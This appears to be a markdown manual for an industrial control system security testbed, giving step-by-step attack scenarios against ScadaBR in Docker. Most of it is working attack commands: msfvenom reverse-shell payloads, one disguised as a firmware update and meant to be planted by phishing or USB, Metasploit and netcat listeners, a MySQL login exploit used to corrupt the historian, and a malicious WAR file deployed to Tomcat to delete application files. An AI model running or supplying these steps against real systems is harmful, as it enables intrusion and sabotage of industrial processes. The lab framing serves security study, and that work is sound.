





# Manual for Attack Scenarios on ScadaBR

## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

```bash
docker ps 
```

Displays the list of containers, you should have 06 plcs running, scadaBR and sim running.

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.9)
   - **Ports:** 10010:8080

## *Accessing ScadaBR via the docker cli*
1. **Tomcat Dashboard**:
   - URL: `http://172.18.0.10:10010`
   - **Username**: `admin`
   - **Password**: `password`

**NB:** ScadaBR is deployed on a tomcat server so we have to access Tomcat's dashboard to be able to deploy or run the ScadaBR.war file properly

2. **ScadaBR Dashboard**:
   - URL: `http://172.18.0.10:10010/scadaBR/login.htm`
   - **Username**: `admin`
   - **Password**: `admin`


- You could also access scadaBR with docker cli

bash
```bash
docker exec -it scadabr bash
```


## *Setting up the attacker's machine*

Docker command:
```bash
sudo docker run -d -t --net swat --hostname attacker --name attacker --privileged --ip 172.18.0.18 -p 10018:8080 kalilinux/kali-rolling
```

Docker container

**Attacker**
   - **Role:** Simulates the attacker in the Scada network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.18)
   - **Ports:** 10018:8080
   - **Description:** The attacker will install the basic tools to counter attack.

## *Accessing the attacker's machine via the docker cli*

bash:
```bash
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## *Scenario - 1 : Manipulate ScadaBR database(Historian)*

The first scenario consist of exploiting the database of scadaBR to erase monitoring evidences

If Metasploit is not installed in the attacker's machine, follow these steps:

Attacker's terminal
```bash
apt-get update && apt-get install -y git curl wget python3-pip
apt install metasploit-framework
```

### *Phase 1 : Craft malicious payload*

- The attacker creates a malicious payload usually named reverse shell using **Metasploit**’s `msfvenom` tool. to access to the scadaBR's container : 

#### *Command to craft the payload in the attacker's machine*

Attacker's terminal
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o mtu_firmware_update.elf
``` 

- The attacker loads the malicious payload into the target's machine. In a real world case, he could use phishing or handle a USB key to an employee. He will eventually tell the employee that it could be firmware update for ScadaBR. The idea is to have access to a target's machine in order to manipulate the scadaBR remotely. 
- In our attack scenario, we assume the phising attack went on successfullu, so we simply upload the crafted payload into the target container

bash 
```bash
docker cp attacker:/scripts/mtu_firmware_update.elf scadabr:/home
```

Then in scadabr, we run this 

ScadaBR terminal
```bash
cd home
chmod +x mtu_firmware_update.elf
./mtu_firmware_update.elf
```

- The payload is running successfully in the target's machine, so the attacker can access the target machine using reverse shell of **Metasploit**’s `msfvenom` tool.

#### *Set up a Metasploit Listener and Mysql exploit*

Attacker's terminal
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.18.0.18 #attacker's IP address
set LPORT 4444
exploit
```

- When the payload is executed, the attacker will gain a reverse shell into the system. You can see that the attack can be repeated with ease
- But The aim here is exploit the mysql database deployed in this server, so we could use another exploit instead of multi/handler

Attacker's terminal
```bash
use scanner/mysql/mysql_login 
run rhost=172.18.0.10 rport=3306 username=scadabr password=scadabr createsession=true
sessions -i -1 
query_interactive 
```

- From here we could have access to the database and we can now write any sql query we wish, we can start creating rubbish in the db to disrupt the physical process







- As we can see, the attacker is capable to manipulate the database and do what so ever he wishes


### *Phase 2 : Stop ScadaBR from working by deleting its configuration files*

- In the attacker's machine we simple create a malicious war file that we going to deploy in the tomcat server 

Attacker's machine
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=172.18.0.18 lport=1234 -f war > shell.war
```

- We deploy this `shell.war` file in the tomcat dashboard and set a Listener on the attacker's machine using netcat

Attacker's machine
```bash
apt install netcat-traditional
nc -lvp 1234
```

- With this, the attacker will be able to access the shell of the tomcat server from the malicious shell.war file and be able to even delete scadaBR configuration files

Attacker's machine
```bash
nc -lvp 1234
cd tomcat7/webapps/ScadaBR/META-INF
rm index.jsp
```





- This will make scadaBR not available anymore. This testbed can enable you realize lots of simple and complex attacks 


## Summary

As you could see, implementing attacks is really easy to do, you could even more PLCS if you wish. Add more scripts and test them on ICS components easily. We experimented other testbeds and I can assure you, this is one of the easiest low-cost testbed to use for ICS security.
